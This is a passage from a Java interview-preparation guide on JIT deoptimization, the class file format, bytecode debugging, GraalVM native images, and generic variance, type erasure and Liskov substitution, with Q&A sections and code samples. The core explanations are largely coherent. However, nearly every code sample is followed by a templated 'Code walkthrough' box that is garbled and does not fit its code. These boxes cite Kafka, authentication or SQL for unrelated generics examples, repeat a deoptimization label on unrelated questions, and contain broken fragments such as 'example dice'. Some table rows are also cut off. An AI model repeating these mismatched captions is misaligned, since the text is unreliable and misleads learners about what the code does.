     c. Re-collects profile
     d. Eventually: recompiles with bimorphic inline (ArrayList + LinkedList)

This is transparent to the application:
  - Correctness preserved
  - Small performance pause during deoptimization
  - Performance recovers after recompilation

Triggered by:
  - New types at a call site (type pollution)
  - ClassLoader loading a new subclass
  - Assertions enabled (changes control flow assumption)
  - Uncommon trap: branch never taken suddenly taken

Monitoring:
  # JVM flag to see deoptimizations:
  -XX:+PrintDeoptimizationFrequency
  # Or JFR (Java Flight Recorder):
  jcmd <pid> JFR.start settings=default duration=30s filename=deopt.jfr
  # Analyze: look for "Deoptimization" events
```

> **Code walkthrough:** This Analyze: look for "Deoptimization" events example demonstrates a key concept in practice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* Type pollution is a real performance
concern in polymorphic code. A method that processes `List<T>` items
performs best when called with only one concrete type (ArrayList). If
the same method is called with ArrayList 90% and LinkedList 10% of the time:
bimorphic dispatch (two inline paths). If more than two types: megamorphic
(full virtual dispatch, no inlining). Performance-critical code should
use the most specific type: process `ArrayList<T>` directly if you know
the type at the call site. This is counterintuitive: "program to interface"
is good software design but can hurt performance in tight loops. The JVM
profile-guided inlining usually handles this automatically, but knowing
the mechanism helps diagnose hotspot performance issues.

---

**Q7 (Class file format): What is in a .class file?**

A:
```
Constant Pool: all literals, class/method/field references
  - UTF8 strings (class names, method names, descriptors)
  - Integer, Float, Long, Double literals
  - ClassInfo: reference to a class by name
  - MethodRef: class + name + descriptor
  - FieldRef: class + name + descriptor

Method descriptors (signature encoding):
  ()V                 -> void methodName()
  (ILjava/lang/String;)Z  -> boolean methodName(int, String)
  [Ljava/lang/String;  -> String[] (array of String)
  I = int, J = long, F = float, D = double, Z = boolean, B = byte
  C = char, S = short, L<classname>; = Object reference

Attributes:
  Code: bytecode + max_stack + max_locals + exception table
  LineNumberTable: bytecode offset -> source line (for debugger)
  LocalVariableTable: local variable names (for debugger)
  StackMapTable: for Java 7+ verifier (explicit frame types)
  Signature: generic type signature (erased in bytecode, preserved here)
  RuntimeVisibleAnnotations: RUNTIME retention annotations
  RuntimeInvisibleAnnotations: CLASS retention annotations
```

> **Code walkthrough:** This Analyze: look for "Deoptimization" events example demonstrates a key concept in practice using generic type. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The `StackMapTable` attribute (mandatory
since Java 7) precomputes the type state of the operand stack and local
variables at each branch target. This allows the bytecode verifier to
verify type safety in O(n) (single pass) instead of O(n^2) (iterative
fixed-point). Before Java 7: verifier was slow and sometimes unreliable
(hard to verify with complex control flow). Tools that generate bytecode
(ASM, Javassist) must compute stack maps correctly; ASM's
`COMPUTE_FRAMES` flag does this automatically (at a performance cost).
Incorrect stack maps: `VerifyError` at class load time.

---

**Q8 (Bytecode and debugging): How does debugging work with JVM bytecode?**

A:
```java
// LineNumberTable attribute maps bytecode offset to source line:
// Source line 42: iconst_1, iadd, putfield -> debugger shows "line 42"

// LocalVariableTable: maps local variable slot to name + type
// Compiled with -g flag: full debug info
// Without -g: only 'this' and method parameters have names;
// other locals show as 'slot_1', 'slot_2' etc.

// Remote debugging: JDWP (Java Debug Wire Protocol)
// JVM flag: -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005
// IDE connects to port 5005, can: set breakpoints, inspect variables, step through

// Java Flight Recorder (JFR): production-safe profiling
// Low overhead (<1%), built into JDK 11+
jcmd <pid> JFR.start duration=60s filename=app.jfr settings=default
// Analyze: IntelliJ / JDK Mission Control / JFR Flamegraph tools

// JVM crash: hs_err_pid*.log file contains:
// - Register dump at crash
// - Stack trace (Java + native frames)
// - JIT-compiled methods active
// - Memory map
// - Bytecode at crash point
// Crucial for diagnosing JVM crashes vs application bugs

// Bytecode debugging for build tools (verify instrumentation):
javap -c -verbose -p com.example.Foo | grep -A 5 "invoke"
// Shows all method invocations: verify instrumentation injected correctly
```

> **Code walkthrough:** This Analyze: look for "Deoptimization" events example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Production debugging without source code:
if a production JVM crashes or hangs, you have: (1) thread dumps (`jstack`),
(2) heap dumps (`jmap`), (3) JFR recordings (method profiling, GC events,
I/O), (4) bytecode disassembly of the crashed method. JFR is the production
tool of choice: it captures continuous runtime data with <1% overhead.
JFR method profiling: finds hot methods without full bytecode analysis.
For native crashes: `hs_err_pid` log shows the exact bytecode instruction
executing at the crash - essential for JVM bug reports.

---

**Q9 (AOT compilation): What is AOT compilation and how does GraalVM
native image work?**

A:
```
AOT (Ahead-of-Time) compilation: compile Java to native binary before runtime

GraalVM Native Image process:
  1. Static reachability analysis (points-to analysis)
     - Starting from main(): find all classes/methods reachable
     - Follows all static initializers, reflective accesses in config
     - Builds closed-world assumption: nothing added dynamically

  2. Compile ALL reachable methods to native machine code
     - No JIT: all optimization done ahead of time
     - Subsetting JDK: only used parts included in binary

  3. Produce: standalone native binary
     - No JVM required to run
     - 10-50MB executable (not GB of JVM installation)
     - <100ms startup (no bytecode loading, no JIT)

Required configuration (can't be discovered statically):
  reflect-config.json: reflective class/method/field access
  resource-config.json: classpath resources accessed at runtime
  proxy-config.json: dynamic proxy interface lists
  serialization-config.json: serializable classes

// Spring Boot 3 + GraalVM: Native hints via annotations
@RegisterReflectionForBinding(User.class) // Spring generates reflect-config
@ImportRuntimeHints(MyHints.class)         // custom hints
class MyHints implements RuntimeHintsRegistrar {
    public void registerHints(RuntimeHints hints, ClassLoader cl) {
        hints.reflection().registerType(User.class,
            MemberCategory.INVOKE_DECLARED_CONSTRUCTORS,
            MemberCategory.DECLARED_FIELDS);
    }
}
```

> **Code walkthrough:** This Analyze: look for "Deoptimization" events example dice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

*What separates good from great:* The closed-world assumption is both the
power and the limitation of Native Image. The closed world enables aggressive
optimization: no virtual dispatch for monomorphic calls (because no new
subclasses can be loaded), dead code elimination (entire unused library
branches removed), constant folding across class initialization. The
limitation: dynamic class loading, most reflection (without explicit config),
and JVMTI agents don't work. Production considerations: Native Image test
suite must cover all reflective access patterns; missing config = `NullPointerException`
or `ClassNotFoundException` at runtime (not at build time). The Tracing Agent
(`-agentlib:native-image-agent=config-output-dir=config`) automates config
generation by recording all dynamic accesses during test runs.

---

### ⚖️ Comparison Table

| Execution Mode| Startup| Peak Throughput| Memory| Reflection| Dynamic Class Lo
|---|----------|-----------------|-------|---------------|---------------------|
| Interpreter (tier 0)| Fast| Slowest (10-100x)| Lowest| Full| Full|
| C1 JIT (tier 1-3)| Medium| Medium| Medium| Full| Full|
| C2 JIT (tier 4)| Slow (warmup)| Best| Medium+| Full| Full|
| GraalVM JIT| Slow (warmup)| Best (better C2)| Medium+| Full| Full|
| Native Image (AOT)| Milliseconds| Good (no warmup)| Lowest| Config required| N

---

### 🏛️ System Design

*(Omit: ★★☆ level - system design not required)*

---

### 📊 Diagram

*(Omit: JIT tiers adequately described in Concept Explanation and Q&As)*

---

---

## Type System Theory and Generic Variance

---

### 🎯 Model Answer

**30 seconds:**
> Java's type system is nominal (types related by name, not structure) and
> statically typed. Generic variance: Java generics are INVARIANT by default
> (`List<Integer>` is NOT a subtype of `List<Number>`). Wildcards add variance:
> `List<? extends Number>` is covariant (read-only use), `List<? super Integer>`
> is contravariant (write-only use). PECS mnemonic: Producer Extends, Consumer
> Super. Java uses type erasure: generic type parameters are erased to `Object`
> (or bounds) at runtime.

**3 minutes (Senior):**
> Subtype polymorphism: `Dog extends Animal` -> `Dog` IS-A `Animal`.
> Parametric polymorphism: `List<T>` works for any T.
> Variance in type systems: how does `List<Dog>` relate to `List<Animal>`?
> Invariant (Java generics): no relationship.
> Covariant (arrays, `? extends`): Dog[] IS-A Animal[]; `List<? extends Animal>`
> Contravariant (`? super`): `List<? super Dog>` accepts `List<Animal>`.
>
> Java arrays are covariant (historical, pre-generics): `Dog[] dogs = new Dog[5]
> Arrays check at runtime; generics check at compile time. This is why
> generics were introduced: compile-time type safety without runtime checks.
>
> Structural vs nominal typing: Java is nominal (explicit extends/implements).
> Structural ("duck typing"): if it has a `quack()`, it's a Duck. TypeScript
> is structural. Java interfaces are the closest analog but still nominal.
> Go uses structural typing for interfaces.

**Framework:** WHAT → WHY → HOW → TRADE-OFF → EXAMPLE

**Blank Mind Recovery:**

**(1) Restate:** "Type system theory - let me cover nominal vs structural,
variance (invariant/covariant/contravariant), type erasure, bounded wildcards,
and why arrays covariance is dangerous."

**(2) First principles:** "A type is a set of possible values plus a set of
valid operations. Subtyping is 'smaller set' relationship (Dog is a subset of
Animal). Variance determines how container types relate when their element
types are in a subtype relationship."

**(3) Bridge:** "Variance is like a delivery truck. A truck that DELIVERS
packages (Producer Extends) can be a 'Number truck' even if it only carries
Integer packages (Integer IS-A Number, you can read out Numbers). A truck
that RECEIVES packages (Consumer Super) can be a 'Animal truck' even if you
put Dog packages in (Dog IS-A Animal)."

---

### 📘 Concept Explanation

**Variance rules:**
```
Invariant:    List<Integer> NOT related to List<Number>
Covariant:    List<? extends Number> accepts List<Integer>, List<Double>
              -> can READ as Number, cannot WRITE (type unknown)
Contravariant: List<? super Integer> accepts List<Number>, List<Object>
              -> can WRITE Integer, READ only as Object

PECS: Producer Extends, Consumer Super
  - "producing" = reading from the collection -> use ? extends
  - "consuming" = writing to the collection  -> use ? super
```

> **Code walkthrough:** This Unknown example demonstrates a key concept in practice using Kafka messaging. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**

**Type erasure:**
```java
// Generic type parameters erased at runtime:
List<String>  -> List (raw) at runtime
List<Integer> -> List (raw) at runtime
// Cannot: List<String>.class -> error (doesn't exist at runtime)
// Cannot: instanceof List<String> -> error

// Preserved in some cases (via TypeToken pattern):
TypeReference<List<String>> typeRef = new TypeReference<List<String>>() {};
// typeRef carries the List<String> info via anonymous subclass trick
// Jackson uses this for deserialization with generic types
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using authentication. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

---

### 💻 Code Example

> **Code walkthrough:** The array covariance example demonstrates Java'sice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**
> "historical mistake" - covariant arrays cause `ArrayStoreException` at
> runtime, not at compile time. Generics were designed to catch this at
> compile time. The PECS `copy()` method from `Collections` is the canonical
> example of using both `? extends` and `? super` in one API.

```java
// DANGER: array covariance (historical Java decision)
String[] strings = new String[3];
Object[] objects = strings; // compiles! arrays are covariant
objects[0] = "OK";    // fine: String into Object[]
objects[1] = 42;      // RUNTIME ArrayStoreException: int into String[]!
// Runtime check: objects IS actually a String[], can't store int

// SAFE: generic covariance (compile-time checked)
List<String> strList = new ArrayList<>();
// List<Object> objList = strList; // COMPILE ERROR: invariant!
// No ArrayStoreException risk: caught at compile time

// Covariant wildcard (read-only use):
List<Integer> ints = List.of(1, 2, 3);
List<Double>  dbls = List.of(1.0, 2.0, 3.0);

double sum(List<? extends Number> nums) {
    double total = 0;
    for (Number n : nums) total += n.doubleValue(); // can READ as Number
    return total;
}
sum(ints); // OK: List<Integer> is-a List<? extends Number>
sum(dbls); // OK: List<Double>  is-a List<? extends Number>
// nums.add(1); // COMPILE ERROR: can't add (type unknown at compile time)

// Contravariant wildcard (write-only use):
void addIntegers(List<? super Integer> dest) {
    dest.add(1);   // can ADD Integer (Integer IS-A anything super Integer)
    dest.add(2);
    // Integer n = dest.get(0); // COMPILE ERROR: get() returns Object only
    Object obj = dest.get(0); // only Object guaranteed
}
List<Number> nums = new ArrayList<>();
addIntegers(nums); // OK: List<Number> is-a List<? super Integer>

// Collections.copy: the PECS canonical example
// Signature: <T> void copy(List<? super T> dest, List<? extends T> src)
// src produces T (extends), dest consumes T (super)
List<Integer> source = List.of(1, 2, 3);
List<Number>  dest   = new ArrayList<>(3);
Collections.copy(dest, source); // T=Integer
// dest is List<Number> (super Integer): can receive Integer (consume)
// source is List<Integer> (extends Integer): can provide Integer (produce)
```

> **Code walkthrough:** `List<? extends Number>` captures the UPPER bound:ice. **KEY MECHANISM:** the runtime executes these instructions in sequence with specific memory and execution semantics. **WHY IT MATTERS:** misapplying this pattern causes subtle bugs that only manifest under production load. **TAKEAWAY: understand the execution model before using this pattern in production code.**
> the list contains SOME type that IS-A Number. You can safely read elements
> as Number (they're guaranteed to be at least Number). You can't add (you
> don't know the exact type: is it `List<Integer>` or `List<Double>`?).
> `List<? super Integer>` captures the LOWER bound: the list's element type
> is some ancestor of Integer. You can safely add Integer (Integer IS-A
> anything that's a supertype of Integer). You can only read as Object
> (the element type could be Number, Object, or Integer itself).

---

### 🎓 Answers by Seniority

**Junior / Mid (0-5 years):**
> Generics are invariant: `List<Integer>` is NOT a `List<Number>`. Use
> `? extends T` when reading from a collection, `? super T` when writing.
> PECS: Producer Extends, Consumer Super. Type erasure removes generic types
> at runtime - can't do `instanceof List<String>`.

---

**Senior / Staff (5+ years):**
> Java's invariant generics are a deliberate trade-off: safety over expressiveness.
> Kotlin adds use-site variance (`out T` = covariant, `in T` = contravariant) and
> declaration-site variance. Scala has both. Go uses structural typing (interfaces
> matched structurally, not nominally). For Java's type system: the Liskov
> Substitution Principle is the theoretical foundation: if `S` is a subtype of `T`,
> then objects of type `T` may be replaced with objects of type `S` without altering
> correctness. Method parameters are contravariant under LSP (wider acceptable input),
> return types are covariant (narrower return). Java enforces covariant return types
> (override can return subtype) but not contravariant parameter types
> (override with supertype parameter is an overload, not override).

---

### ⚠️ Common Misconceptions

**Misconception 1: "Arrays and generics behave the same way with subtypes."**
Arrays are COVARIANT (by design, pre-generics historical decision).
Generics are INVARIANT (by design, for type safety). This inconsistency
is a Java design wart: `Dog[] IS-A Animal[]` but `List<Dog>` is NOT a `List<Animal>`.
The consequence: arrays defer type checks to runtime (`ArrayStoreException`).
Generics catch type errors at compile time. Prefer generics over arrays for
type safety.

**Misconception 2: "? extends T is for adding elements, ? super T for reading."**
It's the OPPOSITE. `? extends T` means "a subtype of T" - you can read
elements as T (safe), but can't add (unsafe: which subtype is it?).
`? super T` means "a supertype of T" - you can add T (always safe, T fits
in any supertype), but can only read as Object (the exact type could be
anything up to Object).

---

### 🚨 Failure Modes and Diagnosis

**Failure: generic type information lost - ClassCastException from raw types.**
```java
// Type erasure causes runtime ClassCastException with unchecked casts:
@SuppressWarnings("unchecked")
List<String> getItems(Object rawList) {
    return (List<String>) rawList; // cast to raw type (no error at this line)
}
// At usage:
List<Integer> actual = List.of(1, 2, 3);
List<String> strings = getItems(actual); // no exception here (erasure hides it)
String s = strings.get(0); // ClassCastException: Integer cannot be cast to String!
// The exception is at the USAGE, not where the bad cast was made -> confusing

// Diagnosis: enable unchecked warnings:
// javac -Xlint:unchecked MyClass.java
// All @SuppressWarnings("unchecked") sites are potential ClassCastException sources

// Safe alternative: TypeToken/Class<T> parameter
<T> T deserialize(String json, Class<T> type) {
    return objectMapper.readValue(json, type); // compile-time checked
}
User user = deserialize(json, User.class); // type-safe
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using authentication. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

---

### 🎯 Interview Deep-Dive

| Question Category | Time to Answer |
|---|---|
| Subtyping and Liskov | 2 minutes |
| Covariance vs contravariance | 2-3 minutes |
| Java array covariance danger | 2 minutes |
| PECS explanation | 2 minutes |
| Type erasure mechanics | 2 minutes |
| Nominal vs structural typing | 2 minutes |
| Bounded type parameters vs wildcards | 2 minutes |
| Intersection types | 2 minutes |
| Reified generics (Kotlin/C#) | 2-3 minutes |

---

**Q1 (Subtyping and Liskov): What is the Liskov Substitution Principle?**

A: "If S is a subtype of T, then objects of type T may be replaced with
objects of type S without altering any desirable properties of the program."

```java
// Correct subtyping (LSP satisfied):
abstract class Shape {
    abstract double area();
    abstract double perimeter();
}
class Circle extends Shape {
    double area() { return Math.PI * r * r; } // more specific, same contract
}
// Can pass Circle where Shape is expected -> works correctly

// LSP violation:
class Square extends Rectangle {
    void setWidth(int w)  { this.width = w; this.height = w; } // also sets height!
    void setHeight(int h) { this.width = h; this.height = h; } // also sets width!
}
// Rectangle contract: width and height are independent
// Square violates this -> cannot safely substitute Square for Rectangle
void resize(Rectangle r) {
    r.setWidth(5);
    r.setHeight(10);
    assert r.area() == 50; // fails for Square! (area = 100: 10x10)
}

// Java language enforcement:
// Covariant return types: override may return subtype (LSP-consistent)
class Animal { Animal create() { return new Animal(); } }
class Dog extends Animal {
    Dog create() { return new Dog(); } // OK: narrower return (covariant)
}
// Parameter types: NOT contravariant in Java (widening parameter = overload)
// Abstract type: parameter type widening would be LSP-consistent but Java
// doesn't enforce it as override; it's a new overloaded method
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* LSP is the foundation of correct inheritance.
The "Square extends Rectangle" example is the canonical LSP violation: both
are mathematically correct shapes, but a Square does NOT behave as a flexible
Rectangle (constraint: width == height). This is why composition is often
preferred over inheritance: `Square has-a side` vs `Square is-a Rectangle`.
The impact in real code: `List.subList()` returns a view - it IS-A List but
has constraints (backed by original list). `Collections.unmodifiableList()`
violates LSP for `add()`/`remove()` (throws UnsupportedOperationException,
which List doesn't specify). This is a documented/accepted violation in Java's
design.

---

**Q2 (Covariance vs contravariance): Explain variance with examples.**

A:
```java
// Variance answers: how does Sub<Dog> relate to Sub<Animal>?
// where Dog extends Animal

// INVARIANT (Java generics default):
// List<Dog> NOT related to List<Animal>
// Safe: prevents ArrayStore-like bugs at compile time
List<Dog> dogs = new ArrayList<>();
// List<Animal> animals = dogs; // COMPILE ERROR
// If this were allowed:
// animals.add(new Cat()); // Cat into List<Dog> - type safety violated!

// COVARIANT (? extends = "some subtype of"):
// List<? extends Animal> accepts List<Dog>, List<Cat>, List<Animal>
// Can read (as Animal), cannot write (unknown subtype)
List<? extends Animal> animals = dogs; // OK (covariant)
Animal a = animals.get(0);       // OK: element IS-A Animal
// animals.add(new Cat());        // COMPILE ERROR: unknown exact type

// CONTRAVARIANT (? super = "some supertype of"):
// List<? super Dog> accepts List<Dog>, List<Animal>, List<Object>
// Can write Dog, can read only as Object
void addDog(List<? super Dog> list) {
    list.add(new Dog());  // OK: Dog fits in any supertype of Dog
    Object obj = list.get(0); // read as Object only
}
addDog(new ArrayList<Animal>()); // Animal is-a supertype of Dog: OK

// Real-world: Comparator is naturally contravariant
// Comparator<Animal> can compare Dogs (a Dog IS-A Animal)
Comparator<Animal> byName = (a1, a2) -> a1.name().compareTo(a2.name());
List<Dog> dogs = new ArrayList<>();
dogs.sort(byName); // works! byName can compare Animals, Dogs are Animals
// Method signature: sort(List<T>, Comparator<? super T>)
// T=Dog, Comparator<? super Dog> accepts Comparator<Animal>, Comparator<Object>
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* Variance in type theory has a precise
formulation: covariant types can be substituted in output positions (return
types), contravariant types in input positions (parameter types). Functions
are contravariant in their parameter types and covariant in their return type.
`Function<Dog, String>` can be used where `Function<Animal, String>` is expected
(Dog IS-A Animal, so any function accepting Animal can accept Dog). Java
encoding: `Function<? super Dog, ? extends String>`. The Java standard
library uses this in `Comparator.comparing()` and `Stream.sorted()`, which
accept `Comparator<? super T>` - allowing comparators of supertypes.

---

**Q3 (Array covariance danger): Why are Java arrays covariant and why is this dangerous?**

A:
```java
// Arrays are covariant: Dog[] IS-A Animal[]
// This was necessary before generics (Java 1.0): sort(Object[] arr) needed to work
// for any array. Without covariance, would need sort(Dog[]), sort(Cat[]), etc.

Dog[] dogs = {new Dog("Rex"), new Dog("Buddy")};
Animal[] animals = dogs; // legal! Dog[] IS-A Animal[]

// Runtime check at every array store:
animals[0] = new Dog("Fido");  // OK
animals[1] = new Cat("Whiskers"); // RUNTIME: ArrayStoreException!
// animals IS a Dog[], can't store Cat

// Java knows the real type of every array at runtime:
// animals.getClass() == Dog[].class (not Animal[].class!)
// Every array write checks: is the value the right type?

// Contrast with generics (invariant, compile-time check):
List<Dog> dogList = new ArrayList<>();
// List<Animal> animalList = dogList; // COMPILE ERROR
// No runtime check needed: type safety guaranteed at compile time

// Why this matters:
// Method accepting Object[] can corrupt a String[]:
void addAll(Object[] arr, Object item) {
    arr[arr.length - 1] = item; // ArrayStoreException if types mismatch!
}
String[] strings = new String[3];
addAll(strings, 42); // compiles, ArrayStoreException at runtime!

// Safe alternative: generic method
<T> void addAll(T[] arr, T item) { // compile-time type safety
    arr[arr.length - 1] = item;
}
// addAll(strings, 42); // COMPILE ERROR: T=String, 42 is Integer
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The array covariance decision is a
compromise between expressiveness (sorting works for all arrays) and safety
(type errors caught at compile time). Generics solve it correctly but came
in Java 5. The existing array covariance can't be removed (backward compatibility).
Modern Java guidance: prefer `List<T>` over `T[]` for collections - generics
are invariant and catch type errors at compile time. Use arrays only for:
performance-critical numerical code, interop with native/JNI, varargs.
The `@SafeVarargs` annotation suppresses the "unchecked" warning for
`T... args` varargs that don't expose the array (arrays of generic type
have the same covariance issue via varargs).

---

**Q4 (Type erasure mechanics): What exactly does type erasure erase?**

A:
```java
// Source (generic):
class Box<T> {
    private T value;
    Box(T value) { this.value = value; }
    T get() { return value; }
}

// After erasure (bytecode equivalent):
class Box {
    private Object value; // T -> Object (unbounded)
    Box(Object value) { this.value = value; }
    Object get() { return value; }
    // Plus: synthetic cast inserted at usage sites
}

// Bounded type: T extends Comparable
class SortedBox<T extends Comparable<T>> {
    T value;
    // T -> Comparable (erased to upper bound)
}
// bytecode: private Comparable value; (erased to Comparable)

// What IS preserved (despite erasure):
// 1. Field generic signatures (via Signature attribute in bytecode):
List<String> field; // bytecode: field type = Ljava/util/List;
// Signature = Ljava/util/List<Ljava/lang/String;>;
// 2. Method parameter/return type generic signatures
// 3. Class/interface generic type parameters

// Accessing preserved generic info via reflection:
Field f = MyClass.class.getDeclaredField("myList");
Type type = f.getGenericType(); // ParameterizedType
ParameterizedType pt = (ParameterizedType) type;
Type[] args = pt.getActualTypeArguments(); // [String.class]
// Jackson uses this to know List<User> vs List<Order> for deserialization

// Cannot do at runtime (erased):
new T(); // COMPILE ERROR: T erased
T[] arr = new T[10]; // COMPILE ERROR: T erased
instanceof T; // COMPILE ERROR: T erased
T.class; // COMPILE ERROR: no such class at runtime
```

> **Code walkthrough:** This Unknown example demonstrates contract definition using SQL. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* The "super type token" pattern (common in
Jackson's `TypeReference<T>`) works by creating an ANONYMOUS subclass that
preserves the generic type parameter in its superclass:
```java
TypeReference<List<String>> typeRef = new TypeReference<List<String>>() {};
// The anonymous class {} has superclass TypeReference<List<String>>
// Signature preserved in bytecode!
Type type = typeRef.getClass().getGenericSuperclass(); // TypeReference<List<String>>
```
> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

This is how Jackson, Gson, and Spring's `ParameterizedTypeReference` provide
generic type info to their APIs. Type erasure creates an asymmetry: types
declared in field/method signatures survive; type parameters at instantiation
sites are erased.

---

**Q5 (Nominal vs structural): Java's nominal vs structural typing.**

A:
```java
// NOMINAL TYPING (Java): types are related by explicit declaration
interface Flyable { void fly(); }
interface Swimmable { void swim(); }

class Duck implements Flyable, Swimmable { // explicit declaration required
    public void fly() { /* flap wings */ }
    public void swim() { /* paddle */ }
}

class Airplane implements Flyable { // also Flyable, declared
    public void fly() { /* jet engines */ }
}

// Duck and Airplane are BOTH Flyable (explicit declaration)
// Duck is NOT Swimmable unless it declares it

// STRUCTURAL TYPING (Go-style): if it has the methods, it IS the type
// Go interface (conceptual):
// interface Flyable { fly() }
// Anything with a fly() method IS a Flyable (without declaring it)
// Duck{fly(), swim()} IS Flyable, IS Swimmable (by structure)

// TypeScript (structural):
interface Point { x: number; y: number; }
// Any object with x and y is assignable to Point:
let p: Point = { x: 1, y: 2, name: "origin" }; // OK! extra field fine
// In Java: must implement Point interface or extend a Point class

// Java's closest to structural: java.util.function interfaces
// A lambda is structurally a FunctionInterface (if it matches the signature)
// Predicate<String> p = s -> s.length() > 5; // "structurally" Predicate
// (but formally: lambda satisfies the @FunctionalInterface by structural match)

// Reflection duck typing: "does this object have method X?"
Method m = obj.getClass().getMethod("run"); // runtime structural check
if (m != null) m.invoke(obj); // "duck typing" via reflection
```

> **Code walkthrough:** This Unknown example demonstrates contract definition using interface. **KEY MECHANISM:** the JVM uses dynamic dispatch for all interface method calls. **WHY IT MATTERS:** interfaces with default methods can conflict at compile time via diamond problem. **TAKEAWAY: interfaces define contracts; prefer them over abstract classes for unrelated types.**

*What separates good from great:* Nominal vs structural typing is a fundamental
type system design choice with real engineering trade-offs. Nominal typing
(Java): explicit declarations make dependencies clear, refactoring safe
(rename a method -> all callers break, compiler finds them). Structural
typing (Go, TypeScript): more flexible, decoupled (library provides type,
users implement without modifying the library), but harder to track who
implements what. Java's "soft structural typing" via lambdas and `@FunctionalInterface`
is a pragmatic middle ground: lambda bodies are structurally matched to
functional interfaces, but the interface itself is nominally declared.
The JVM's type system is entirely nominal; structural compatibility is a
language-level illusion for lambdas.

---

**Q6 (Bounded type params vs wildcards): When do you use bounded type
parameters vs wildcards?**

A:
```java
// Bounded type parameter <T extends Foo>: T is a type variable you use
// Wildcard <? extends Foo>: anonymous, you can't refer to the type

// Use bounded type parameter when you need to refer to T in multiple places:
<T extends Comparable<T>> T max(T a, T b) {
    return a.compareTo(b) >= 0 ? a : b; // T used in parameter and return type
}

// Use wildcard when you don't need to name the type:
double sum(List<? extends Number> nums) { // don't need T; just read as Number
    double total = 0;
    for (Number n : nums) total += n.doubleValue();
    return total;
}
// Could write: <T extends Number> double sum(List<T> nums)
// But T is never used again -> wildcard is cleaner

// Wildcard capture: when you need to give a wildcard a name
// Helper method technique:
<T> void swapHelper(List<T> list, int i, int j) {
    T temp = list.get(i);
    list.set(i, list.get(j));
    list.set(j, temp);
}
void swap(List<?> list, int i, int j) {
    swapHelper(list, i, j); // wildcard "captured" as T
}
// public method uses ? (flexible), private helper captures as T (usable)

// Decision rule:
// - Multiple uses of the type in the signature -> bounded type parameter
// - Single use or doesn't need naming -> wildcard (? extends T or ? super T)
// - Method return type is always the type -> bounded type parameter
//   (can't return ? extends T; T is not nameable)
```

> **Code walkthrough:** This Unknown example demonstrates Java API usage using generic type. **KEY MECHANISM:** the JVM compiles to bytecode that runs on the JVM; JIT compiles hot paths to native. **WHY IT MATTERS:** unchecked assumptions about thread safety cause data races under concurrent load. **TAKEAWAY: document thread-safety guarantees on every shared mutable class.**

*What separates good from great:* The "wildcard capture" pattern is how
`Collections.swap()` is implemented in the JDK. The public API takes `List<?>`
(flexible, accepts any List). Internally: you can't do `list.set(i, list.get(j))`
with `?` (unknown type). The private helper captures `?` as `T`, making it
a named type you can store in a variable. This is a common pattern when
designing flexible public APIs: wildcards for the public surface, bounded
type parameters for the implementation.

---

**Q7 (Intersection types): What are intersection types in Java?**

A: Intersection types (`<T extends A & B>`) bound a type parameter to
be a subtype of MULTIPLE types simultaneously.

```java
// Type parameter must implement both Serializable AND Comparable<T>:
<T extends Serializable & Comparable<T>> T maxSerializable(T a, T b) {
    return a.compareTo(b) >= 0 ? a : b;
}
// T must be both Serializable AND Comparable<T>
// String satisfies both: String implements Serializable, Comparable<String>
// Integer satisfies both

// In casts:
Object obj = getSomething();
// Casting to intersection: requires both
Runnable r = (Runnable & Serializable) obj; // obj must implement both at runtime
// SerializableRunnable r = (SerializableRunnable) obj; // alternative: define combined interface

// Serializable lambda (intersection cast):
